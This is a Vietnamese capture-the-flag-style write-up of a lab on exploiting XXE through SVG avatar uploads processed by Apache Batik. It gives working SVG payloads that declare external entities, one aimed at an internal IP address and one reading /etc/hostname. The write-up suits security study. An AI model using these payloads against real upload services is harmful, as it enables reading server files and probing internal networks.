 # Lab: Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

# Overview:

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/f7d3cdb1-c1d7-41ff-9364-32bbaef4a840)

Ta có một web blog đơn giản, không có chức năng đăng kí và đăng nhập chỉ có chức năng comment và upload file SVG.

Nếu ta nhắc đến File upload thì có các dạng sau:

- RCE

- Cross-Site Scripting

- AUTHZ/N ISSUES

- SSRF/XXE

Ở lab này, nếu ta  upload 1 file SVG ta sẽ được trả về XXE. Định dạng tập tin SVG là một định dạng hình ảnh dựa trên XML, cho phép mô tả đồ họa vector tĩnh và động với khả năng tự động điều chỉnh kích thước..

Nhìn sơ qua thì roadmap của mình như sau. Upload 1 file SVG reference 1 entity và nếu kết quả trả về là xác định có entity.

# Solution:

```xml
<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200" version="1.1"
baseProfile="full" > <rect x="0" y="0" width="60" height="60" style="stroke: blue;"/>
<rect id="myRect" x="25" y="25" rx="0.6" ry="0.6" width="150" height="150" fill="blue"
stroke="black" stroke-width="8"/>
</svg>
```

Tập tin SVG này mô tả một hình chữ nhật và một hình chữ nhật được xác định bằng các thuộc tính và phong cách khác nhau. Hình chữ nhật đầu tiên có kích thước 60x60 và có đường viền màu xanh. Hình chữ nhật thứ hai có id là "myRect", có tọa độ x=25, y=25, kích thước 150x150, được tô màu xanh và có đường viền màu đen với độ dày 8.

Đây chỉ là một ví dụ đơn giản về cú pháp của tập tin SVG, và nó có thể được mở và hiển thị bằng các trình duyệt web hoặc các công cụ hỗ trợ định dạng này.

Sau đó sử dụng command `nano test.svg` để tạo 1 file svg.Và upload file dó ta được kết quả trả về giống như file SVG.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/17859e05-13b7-49e2-880f-fb9bcd2833d2)

Sau khi ta upload file svg, xem thử ở Burp suite thì ta thấy post request mà ta gửi ở trong avatar. Vậy thì chúng ta có thể reference entity bằng svg file

Mình có ví dụ 1 file exploit SVG

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.154/">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<text font-size="16" x="0" y="16">
&xxe;
</text>
</svg>
```

Đây là một tập tin SVG mà chứa một yêu cầu XXE (XML External Entity). Nó khai báo entity XML bên ngoài có tên là "xxe" và định nghĩa đường dẫn là "http://169.254.169.154/". Trong phần nội dung của SVG, có một đoạn văn bản được định dạng với kích thước font-size là 16 và được đặt ở tọa độ x=0, y=16. Trong đoạn văn bản này, ta sử dụng entity "xxe" để tham chiếu đến đường dẫn bên ngoài đã được khai báo, và hi vọng rằng ứng dụng xử lý tập tin SVG sẽ truy cập vào đường dẫn này và trả về dữ liệu tương ứng.

Kế đó ta chỉnh sửa cho đúng goal của bài. Theo đề ta cần lấy data ở "/etc/hostname" nên ta sẽ thay api bằng path đó

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<text font-size="16" x="0" y="16">
&xxe;
</text>
</svg>
```                                     
Sau đó thì mình sẽ paste file exploit đó vào chỗ mà svg cũ ta đã gửi đi hồi nãy hoặc có thể là upload file này lên cũng được.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/20ddd166-931e-4af5-8699-1d07b04aa16d)
Sau đó ta reload page, và kết quả có trả ra 1 image khác

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/0ba1fc19-a860-46e5-8a1d-e18d993ade1e)

Mở nó ra

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/fb39df53-a71e-43b1-9e97-0d851a6a3ff1)

Đây là hostname chứ không phải là 1 cái random text. Vậy giờ ta chỉ cần sumbit đó thôi

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/a6ef4b46-34df-475f-84bf-fbecc867101a)

Vậy đã solve được lab. 




